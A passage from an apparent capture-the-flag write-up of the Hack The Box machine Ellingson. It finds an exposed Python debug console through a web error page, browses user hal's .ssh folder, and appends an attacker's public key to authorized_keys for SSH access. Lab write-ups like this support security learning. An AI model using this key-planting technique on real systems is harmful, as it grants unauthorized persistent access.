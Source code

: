 <p>Nothing out of the usual so let's take a look at the web service and see what we can find. Looks like a company page. Before we start poking around manually we make sure to kick off burp and get a better idea of the layout.</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/burp.PNG' | relative_url }}">
</p>

<p>After taking a look at the various pages, there was some interesting information on the various articles. There was some discussion about previous security incidents and some common password warnings.</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/article1.PNG' | relative_url }}">
</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/article3.PNG' | relative_url }}">
</p>

<p>It seems we're loading the various articles by just going to the reference page number url. Let's see what happens when we try to go to a page that doesn't exist like "4".</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/article4.PNG' | relative_url }}">
</p>

<p>Ok some error messages and leakage indicating that at least python is installed on the machine. While scrolling through the error messages I accidentally moved my over to the side and noticed a terminal icon pop up. I thought that seemed quite weird, so looking further into it I quickly realized this was actually a python console, running as the user hal!</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/hal.PNG' | relative_url }}">
</p>

<p>With some initial poking around I realized that there were four users (or at least for homedirectories). Since we were running as hal we had access to his homedir. Unfortunately, no user flag present there, however we did have access to his <code>.ssh</code> folder and subsequently <code>authorized_keys</code>. Let's add our own in there and see if we can get access properly through ssh.</p>

{% highlight shell %}
>>> os.chdir("/home/hal")
>>> os.getcwd()
'/home/hal'
>>> dirlist = glob.glob('.*')
>>> print(dirlist)
['.profile', '.bashrc', '.ssh', '.local', '.gnupg', '.bash_logout', '.viminfo', '.cache']
>>> os.chdir(".ssh")
>>> dirlist = glob.glob('*')
>>> print(dirlist)
['id_rsa', 'authorized_keys', 'id_rsa.pub']
>>>open('authorized_keys', 'a+').write('\nssh-rsa AAAAB3N...XBuOItl root@kali\n')
{% endhighlight %}
